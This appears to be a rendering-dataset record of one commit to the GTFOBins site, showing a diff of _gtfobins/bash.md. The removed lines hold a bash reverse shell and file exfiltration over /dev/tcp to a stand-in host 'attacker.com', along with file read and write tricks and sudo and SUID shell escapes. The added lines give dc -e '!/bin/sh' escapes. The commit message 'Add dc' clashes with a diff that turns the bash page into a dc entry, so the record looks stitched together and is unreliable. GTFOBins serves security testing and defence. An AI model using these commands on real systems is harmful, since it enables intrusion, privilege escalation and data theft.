

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/bash.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Add dc
As initially suggested by #397.

```diff
--- a/_gtfobins/bash.md
+++ b/_gtfobins/bash.md
@@ -1,67 +1,9 @@
 ---
 functions:
   shell:
-    - code: bash
-  reverse-shell:
-    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
-      code: |
-        export RHOST=attacker.com
-        export RPORT=12345
-        bash -c 'exec bash -i &>/dev/tcp/$RHOST/$RPORT <&1'
-  file-upload:
-    - description: Send local file in the body of an HTTP POST request. Run an HTTP service on the attacker box to collect the file.
-      code: |
-        export RHOST=attacker.com
-        export RPORT=12345
-        export LFILE=file_to_send
-        bash -c 'echo -e "POST / HTTP/0.9\n\n$(<$LFILE)" > /dev/tcp/$RHOST/$RPORT'
-    - description: Send local file using a TCP connection. Run `nc -l -p 12345 > "file_to_save"` on the attacker box to collect the file.
-      code: |
-        export RHOST=attacker.com
-        export RPORT=12345
-        export LFILE=file_to_send
-        bash -c 'cat $LFILE > /dev/tcp/$RHOST/$RPORT'
-  file-download:
-    - description: Fetch a remote file via HTTP GET request.
-      code: |
-        export RHOST=attacker.com
-        export RPORT=12345
-        export LFILE=file_to_get
-        bash -c '{ echo -ne "GET /$LFILE HTTP/1.0\r\nhost: $RHOST\r\n\r\n" 1>&3; cat 0<&3; } \
-            3<>/dev/tcp/$RHOST/$RPORT \
-            | { while read -r; do [ "$REPLY" = "$(echo -ne "\r")" ] && break; done; cat; } > $LFILE'
-    - description: Fetch remote file using a TCP connection. Run `nc -l -p 12345 < "file_to_send"` on the attacker box to send the file.
-      code: |
-        export RHOST=attacker.com
-        export RPORT=12345
-        export LFILE=file_to_get
-        bash -c 'cat < /dev/tcp/$RHOST/$RPORT > $LFILE'
-  file-write:
-    - code: |
-        export LFILE=file_to_write
-        bash -c 'echo DATA > $LFILE'
-    - description: This adds timestamps to the output file.
-      code: |
-        LFILE=file_to_write
-        HISTIGNORE='history *'
-        history -c
-        DATA
-        history -w $LFILE
-  file-read:
-    - description: It trims trailing newlines and it's not binary-safe.
-      code: |
-        export LFILE=file_to_read
-        bash -c 'echo "$(<$LFILE)"'
-    - description: The read file content is surrounded by the current history content.
-      code: |
-        LFILE=file_to_read
-        HISTTIMEFORMAT=$'\r\e[K'
-        history -r $LFILE
-        history
-  library-load:
-    - code: bash -c 'enable -f ./lib.so x'
-  suid:
-    - code: "./bash -p"
+    - code: dc -e '!/bin/sh'
   sudo:
-    - code: sudo bash
+    - code: sudo dc -e '!/bin/sh'
+  limited-suid:
+    - code: ./dc -e '!/bin/sh'
 ---
```
